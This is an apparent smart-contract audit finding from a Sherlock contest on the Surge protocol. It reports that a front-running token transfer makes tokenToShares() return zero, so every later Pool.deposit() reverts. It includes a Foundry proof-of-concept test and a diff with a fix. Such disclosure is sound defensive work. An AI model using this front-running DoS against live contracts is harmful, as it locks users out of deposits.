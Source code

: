 chaduke

medium

# A malicious user can create a DOS attack to deposit()

## Summary
A malicious user can create a DOS attack to deposit(). 

He can accomplish that by manipulating ``_loanTokenBalance`` and ``_currentTotalSupply`` such that function ``tokenToShares()`` will always return zero. As a result, ``deposit()`` will always revert. 

## Vulnerability Detail
A malicious user Bob can initiate a DOS attack to deposit() like this:

1) Bob front-runs all transactions of the protocol and sends 1 loan token to the pool. As a result, ``_loanTokenBalance != 0``, and ``totalSupply = 0``. Now nobody can run ``deposit()`` anymore. 

2) Let's say Alice runs deposit(1000). 
[https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307-L343](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307-L343)

3) At L324, it calls tokenToShares(1000, 1, 0, false) to calculate how many pool shares to return to Alice. 

4) However, the implementation of ``tokenToShares`` has a problem: when ``_supplied != 0`` and ``_sharesTotalSupply == 0``, it will always return ZERO. Therefore,  ``tokenToShares(1000, 1, 0, false)``  will return zero: 

[https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204)

5) As a result, ``deposit()`` will revert on L325. An effective DOS attack to all future deposits.

6) The code POC below confirms my finding:

```javascript
 function testDepositDOS() external {
        uint amount = 1000;
        MockERC20 collateralToken = new MockERC20(0, 18);
        MockERC20 loanToken = new MockERC20(amount, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        loanToken.transfer(address(pool), 7);
        assertEq(loanToken.balanceOf(address(pool)), 7);
        assertEq(loanToken.balanceOf(address(this)), 993);
        loanToken.approve(address(pool), 2);
        vm.expectRevert();
        pool.deposit(2);
        loanToken.transfer(address(1), 3);
        loanToken.transfer(address(2), 4);
        vm.prank(address(1));
        loanToken.approve(address(pool), 3);
        vm.prank(address(1));
        vm.expectRevert();
        pool.deposit(3);
        vm.prank(address(2));
        loanToken.approve(address(pool), 4);
        vm.expectRevert();
        pool.deposit(4);
    }   
```

## Impact
A DOS attack to deposit() such that it will always revert. 

## Code Snippet

## Tool used
VSCode, foundry

Manual Review

## Recommendation
We revise the tokenToShares() function as follows:

```diff
 function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
-        if(_supplied == 0) return _tokenAmount;
+       if(_sharesTotalSupply == 0) return _tokenAmount;
        uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
        if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
        return shares;
    }
```
